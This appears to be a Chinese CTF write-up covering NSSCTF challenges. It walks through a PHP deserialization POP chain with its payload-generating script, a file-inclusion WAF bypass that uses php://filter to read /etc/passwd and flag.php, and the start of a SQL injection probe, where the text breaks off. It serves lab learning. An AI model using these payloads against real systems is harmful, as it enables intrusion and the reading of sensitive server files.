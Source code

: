 ## [SWPUCTF 2021 新生赛]pop
>题目url：https://www.nssctf.cn/problem/440

打开题目是一段php代码
```php
 <?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?> 
```

这里要介绍一下三种魔术方法
```
1. w22m::__destruct()：析构魔术方法

    定义：__destruct()是 PHP 的析构魔术方法，当对象被销毁（如脚本执行结束、对象被 unset 等）时会自动调用。
    代码中的作用：
    该类的__destruct()方法定义为echo $this->w00m;，即当w22m对象被销毁时，会输出其属性$w00m的值。
    若$w00m是一个对象（而非普通字符串 / 数值），则在 “输出对象” 的过程中，会触发该对象的__toString()魔术方法（如果该对象所属类定义了__toString()）。

2. w33m::__toString()：字符串转换魔术方法

    定义：__toString()是 PHP 的字符串转换魔术方法，当对象被当作字符串处理时（如echo输出、字符串拼接等）会自动调用。
    代码中的作用：
    该类的__toString()方法定义为$this->w00m->{$this->w22m}();，即调用$w00m对象的$w22m属性指定的方法。
    例如：若$w00m是w44m类的实例，$w22m的值为"Getflag"，则会执行w44m->Getflag()方法。

3. w44m::Getflag()：普通公共方法

    定义：这不是魔术方法，而是一个普通的公共方法，需要被显式调用（或通过其他方法间接调用）。
    代码中的作用：
    该方法是获取 flag 的核心逻辑：当$this->admin === 'w44m'且$this->passwd === '08067'时，会包含flag.php并输出 flag；否则输出错误信息。
```
根据上面的介绍可以知道，想直接反序列化
```php
class w44m{

    private $admin = 'aaa';
    protected $passwd = '08067';

    
}
```
注意一点记得把123456改成08067
aaa改成w44m

是不行的，必须先触发w22m::__destruct()，然后是w33m::__toString()，最后才是w44m::Getflag()
![alt text](image-27.png)
```php
 <?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'w44m';
    protected $passwd = '08067';

   
}

class w22m{
    public $w00m;
    
}

class w33m{
    public $w00m;
    public $w22m;
  
}
$a=new w22m();
$a->w00m=new w33m();
$a->w00m->w00m=new w44m();
$a->w00m->w22m='Getflag';
echo serialize($a);
?> 

?> 
```

下面具体解释一下为什么
$a=new w22m();
$a->w00m=new w33m();
$a->w00m->w00m=new w44m();
$a->w00m->w22m='Getflag';

```
1. $a = new w22m();
创建一个 w22m 类的实例，赋值给变量 $a。

    w22m 类的关键是包含 __destruct() 魔术方法（对象销毁时自动调用），这是整个调用链的起点。

2. $a->w00m = new w33m();
给 w22m 对象（$a）的 w00m 属性，赋值一个新的 w33m 类实例。

    目的：w22m 的 __destruct() 方法会执行 echo $this->w00m，而 w00m 现在是 w33m 对象。
    当 echo 一个对象时，会触发该对象的 __toString() 魔术方法（如果类中定义了），而 w33m 恰好定义了 __toString()，这一步为触发 w33m::__toString() 铺路。

3. $a->w00m->w00m = new w44m();
给上一步创建的 w33m 对象（即 $a->w00m）的 w00m 属性，赋值一个新的 w44m 类实例。

    目的：w33m 的 __toString() 方法中有一行关键代码：$this->w00m->{$this->w22m}()，这里的 $this->w00m 需要指向一个具体的对象（后续要调用这个对象的方法）。
    我们的目标是调用 w44m::Getflag()，因此这里将 w33m->w00m 指向 w44m 对象（目标方法所在的类）。

4. $a->w00m->w22m = 'Getflag';
给 w33m 对象（$a->w00m）的 w22m 属性，赋值字符串 'Getflag'。

    结合 w33m::__toString() 中的代码 $this->w00m->{$this->w22m}()：
        {$this->w22m} 是 PHP 的变量函数语法，会将 $this->w22m 的值作为 “方法名”。
        此时 $this->w22m 是 'Getflag'，$this->w00m 是 w44m 对象，因此这行代码等价于 w44m->Getflag()，即精准调用目标方法。

总结
这四行代码通过 “对象嵌套” 的方式，构建了一条完整的调用链：
w22m 对象 -> 包含 w33m 对象 -> 包含 w44m 对象 + 方法名 'Getflag'
当这个对象链被序列化后，反序列化时会按以下流程自动触发：
w22m::__destruct()（对象销毁）→ echo w33m 对象 → 触发 w33m::__toString() → 调用 w44m->Getflag()
```
得到了序列化编码之后为了把空格处理掉，再进行url编码
![alt text](image-29.png)
得到flag
![alt text](image-30.png)


## [鹏城杯 2022]简单包含
>题目url：https://www.nssctf.cn/problem/2422

打开题目是一段php代码

```php
 <?php 
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php; 
```
根据他的意识直接post传参
`
flag=/var/www/html/flag.php 
`
![alt text](image-55.png)
提示触发了waf说明被保护了，要绕过waf
用伪协议读看看
```
flag=php://filter/read=convert.base64-encode/resource=/etc/passwd
```
![alt text](image-56.png)
出现一段base64代码，解码之后没有有用的信息。
但是这说明了php://filter是有用的，可能是flag被过滤了
试试index.php

![alt text](image-57.png)
这次得到的base64解码之后是一段php代码
```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>
```
这段代码表明了过滤掉flag字符，但是注意到还有一句
```
file_get_contents('php://input') < 800
```
说明可以让输入的东西大于800字节就可以跳出这条条件
post传参如下
```
yjk=jk(800个字符)&flag=php://filter/read=convert.base64-encode/resource=flag.php
```
![alt text](image-58.png)
得到一段base64码解码得到flag
![alt text](image-59.png)

## [SWPUCTF 2021 新生赛]sql
>url:https://www.nssctf.cn/problem/442

![alt text](image-61.png)
打开题目有一句提示
注意到传参是通过wllm,但是还有waf，waf可以防治sql注入

先判度一下闭合方式
![alt text](image-62.png)
![alt text](image-63.png)
说明是单引号闭合

然后测试行回显数

